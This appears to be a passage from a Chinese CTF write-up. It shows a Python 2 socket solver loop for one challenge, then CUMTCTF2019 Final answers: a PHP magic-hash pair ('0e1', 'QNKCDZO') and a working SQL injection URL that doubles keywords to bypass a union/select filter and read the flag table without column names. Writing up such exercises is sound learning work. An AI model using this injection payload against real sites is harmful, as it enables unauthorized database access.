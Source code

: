 ```python
        s.recv(64)
        s.send(hex(g)[2:].strip('L'))
        s.recv(64)
        s.send(hex(g)[2:].strip('L'))
        r = s.recv(64)
        if 'flag' in r:
            print r
            exit()


for i in range(200):
    print s.recv(1024)
    print hex(newground)[2:].strip('L')
    s.send(hex(newground)[2:].strip('L'))
    print s.recv(1024)
    print hex(newsky)[2:].strip('L')
    s.send(hex(newsky)[2:].strip('L'))

    print(s.recv(64))
    g1 = g
    s.send(hex(g1)[2:].strip('L'))
    print(s.recv(64))
    g2 = g + step
    s.send(hex(g2)[2:].strip('L'))

    r = s.recv(64)
    print(r)
    if r.strip('\n') == '1':
        # in the middle
        solve_bin()
    else:
        g += step
```

***

## CUMTCTF2019 Final

### 签到题

seed=0e1

hash=QNKCDZO

***

### SQL注入

基础无列名注入

```
/list.php?id=-1%27%20uniunionon%20(seleselectct%201,2,c%20from(selselectect%201,2%20c%20ununionion%20seselectlect%20*%20from%20f1ag1nit)b)limit%201,1--%20-
```
